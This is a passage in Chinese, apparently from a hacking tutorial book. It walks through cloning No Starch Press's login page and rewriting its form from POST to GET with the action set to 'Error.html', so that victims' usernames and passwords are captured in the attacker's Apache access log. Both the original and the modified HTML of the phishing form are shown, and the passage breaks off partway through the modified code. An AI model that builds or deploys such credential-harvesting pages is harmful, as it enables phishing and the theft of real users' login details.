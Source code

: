 就像我们之前讨论的登录表单一样，这个文件包含了用户名 2 和密码 3 字段，且验证码的工作方式相同。

经过进一步检查，你会发现这个网站使用的是 HTTP POST 方法，而不是 GET 方法，这意味着你需要重写第 1 行，以便你能通过 URL 窃取凭证，从而将其写入 Apache 访问日志。HTTP POST 和 HTTP GET 都是从服务器到客户端获取信息的方法。主要区别在于 GET 方法将参数传递在 URL 中，这比 HTTP POST 方法更不安全，因为后者使用消息体传输参数。

让我们把这个应用到我们的 No Starch 登录页面，进行一些更改，以便你可以将类型更改为 GET，并按照计划捕获凭证。你要查找的文件位于*nostarch.com/user*目录下的*index.html*中。你可以通过“检查元素”方法查找该文件，或者手动下载并查看源代码。

以下是现有代码中包含表单的部分（可以通过搜索*form*找到）：

```
<form action="https://nostarch.com/user/" method="post" id="user-login" accept-
charset="UTF-8"><div><div class="form-item form-item-openid-identifier form-type-textfield
form-group"> <label class="control-label" for="edit-openid-identifier">Log in using
OpenID</label>
<input class="form-control form-text" type="text" id="edit-openid-identifier"
name="openid_identifier" value="" size="60" maxlength="255" /><div class="help-block"><a
href="https://openid.net/">What is OpenID?</a></div></div><div class="form-item form-item-
name form-type-textfield form-group"> <label class="control-label" for="edit-name">Username
or email address <span class="form-required" title="This field is
required.">*</span></label>
<input class="form-control form-text required" title="Enter your username or email
address." data-toggle="tooltip" type="text" id="edit-name" name="name" value="" size="60"
maxlength="60" /></div><div class="form-item form-item-pass form-type-password form-group">
<label class="control-label" for="edit-pass">Password <span class="form-required"
title="This field is required.">*</span></label>
<input class="form-control form-text required" title="Enter the password that accompanies
your username." data-toggle="tooltip" type="password" id="edit-pass" name="pass" size="60"
maxlength="128" /></div><input type="hidden" name="form_build_id" value="form--q4hdYs-
iZQz_R7O2aCls66if7f2BqLo2k1ZftdGkfs" />
<input type="hidden" name="form_id" value="user_login" />
<input type="hidden" name="openid.return_to"
value="https://nostarch.com/openid/authenticate?destination=user" />
<ul class="openid-links"><li class="openid-link"><a href="#openid-login">Log in using
OpenID</a></li>
<li class="user-link"><a href="#">Cancel OpenID login</a></li>
</ul><div class="form-actions form-wrapper form-group" id="edit-actions"><button
type="submit" id="edit-submit" name="op" value="Log in" class="btn btn-primary form-submit
icon-before"><span class="icon glyphicon glyphicon-log-in" aria-hidden="true"></span>
Log in</button>
</div></div></form>
```

现在，进行以下加粗部分所示的更改：

```
1**<form action="Error.html" method="get"** id="user-login" accept-charset="UTF-8"><div>
<div class="form-item form-item-openid-identifier form-type-textfield form-group"> 
<label class="control-label" for="edit-openid-identifier">Log in using OpenID</label>
<input class="form-control form-text" type="text" id="edit-openid-identifier"
name="openid_identifier" value="" size="60" maxlength="255" />
<div class="help-block">
<a 2**href="Error.html"**>What is OpenID?</a></div>
</div>
<div class="form-item form-item-name form-type-textfield form-group"> 
<label class="control-label" for="edit-name">Username or email address <span class="form-required" title="This field is required.">*</span></label>
<input class="form-control form-text required" title="Enter your username or email
address." data-toggle="tooltip" type="text" id="edit-name" name="name" value="" size="60"
maxlength="60" />
</div>
<div class="form-item form-item-pass form-type-password form-group"> 
<label class="control-label" for="edit-pass">Password <span class="form-required" title="This field is required.">*</span></label>
<input class="form-control form-text required" title="Enter the password that accompanies
your username." data-toggle="tooltip" type="password" id="edit-pass" name="pass" size="60"
maxlength="128" />
```